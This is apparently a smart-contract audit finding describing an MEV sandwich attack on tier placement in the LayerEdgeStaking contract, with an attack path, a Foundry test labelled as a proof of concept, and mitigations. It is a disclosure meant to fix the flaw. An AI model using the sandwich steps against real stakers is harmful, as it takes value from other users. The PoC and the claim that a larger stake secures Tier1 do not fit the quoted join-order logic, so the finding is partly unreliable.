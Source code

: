 Prehistoric Coconut Aardvark

High

# MEV Risks in Tier Assignment System

# Summary
The sequential processing in tier assignments in [LayerEdgeStaking.sol#L466-L516](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L466-L516) will cause financial losses for stakers as MEV bots can sandwich transactions to manipulate tier placements and extract value.

## Root Cause
In [LayerEdgeStaking.sol#L466-L516](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L466-L516) the stake function processes tier assignments sequentially:

```solidity
function _stake(uint256 amount, address userAddr, bool isNative) internal {
    // ... 
    if (!user.isActive && amount >= minStakeAmount) {
        user.joinId = nextJoinId++;  // @audit Sequential ID assignment
        stakerTree.update(user.joinId, 1);
        stakerCountInTree++;
        // @audit Tier assignment happens after state changes
        tier = _computeTierByRank(rank, stakerCountInTree);
    }
}
```

This predictable state change pattern allows MEV bots to sandwich transactions for optimal tier placement. The vulnerability is compounded by the lack of MEV protection in [LayerEdgeStaking.sol#L729-L738](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L729-L738):

```solidity
function _computeTierByRank(uint256 rank, uint256 totalStakers) internal pure returns (Tier) {
    if (rank == 0 || rank > totalStakers) return Tier.Tier3;
    (uint256 tier1Count, uint256 tier2Count,) = getTierCountForStakerCount(totalStakers);
    if (rank <= tier1Count) return Tier.Tier1;
    else if (rank <= tier1Count + tier2Count) return Tier.Tier2;
    return Tier.Tier3;
}
```

## Internal Pre-conditions
1. Contract must have sufficient stakers to make tier manipulation profitable
2. Tier boundaries must be near transition points
3. APY difference between tiers must be significant enough to make MEV profitable

## External Pre-conditions
1. MEV infrastructure must be available
2. Network must allow for transaction reordering
3. Gas prices must be low enough to make MEV profitable

## Attack Path
1. MEV bot monitors mempool for large stake transactions
2. When large stake detected, bot front-runs with larger stake to secure Tier1
3. Original transaction gets processed, pushed to lower tier
4. Bot back-runs with unstake, extracting value from temporary tier position
5. Process can be repeated for consistent profit

## Impact
The stakers suffer direct financial losses through suboptimal tier placement and reduced APY earnings. MEV bots can extract value by manipulating the tier system, effectively stealing higher APY positions from legitimate users.

## PoC
```solidity
// SPDX-License-Identifier: GPL-3.0-or-later
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/stake/LayerEdgeStaking.sol";

contract MEVExploitTest is Test {
    LayerEdgeStaking staking;
    address attacker;
    address victim;
    uint256 constant LARGE_STAKE = 10000e18;
    uint256 constant NORMAL_STAKE = 1000e18;
    
    function setUp() public {
        staking = new LayerEdgeStaking();
        attacker = makeAddr("attacker");
        victim = makeAddr("victim");
        vm.deal(attacker, LARGE_STAKE);
        vm.deal(victim, NORMAL_STAKE);
    }
    
    function testMEVSandwich() public {
        // Front-run
        vm.prank(attacker);
        staking.stake{value: LARGE_STAKE}();
        assertEq(uint(staking.getUserTier(attacker)), uint(Tier.Tier1));
        
        // Victim transaction
        vm.prank(victim);
        staking.stake{value: NORMAL_STAKE}();
        assertEq(uint(staking.getUserTier(victim)), uint(Tier.Tier2));
        
        // Back-run with unstake
        vm.prank(attacker);
        staking.unstake(LARGE_STAKE);
        
        // Verify victim remains in lower tier
        assertEq(uint(staking.getUserTier(victim)), uint(Tier.Tier2));
    }
}
```

## Mitigation
1. Implement time-weighted tier assignments in [LayerEdgeStaking.sol#L729](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L729):

```solidity
struct StakeInfo {
    uint256 amount;
    uint256 timestamp;
    uint256 weightedScore;
}

function calculateTierScore(address user) internal view returns (uint256) {
    StakeInfo storage info = stakes[user];
    uint256 timeWeight = block.timestamp - info.timestamp;
    return info.amount * timeWeight;
}
```

2. Add minimum stake duration before tier eligibility
3. Implement anti-MEV measures like commit-reveal
4. Consider using Flashbots Protect or similar MEV protection
5. Add penalties for rapid unstaking 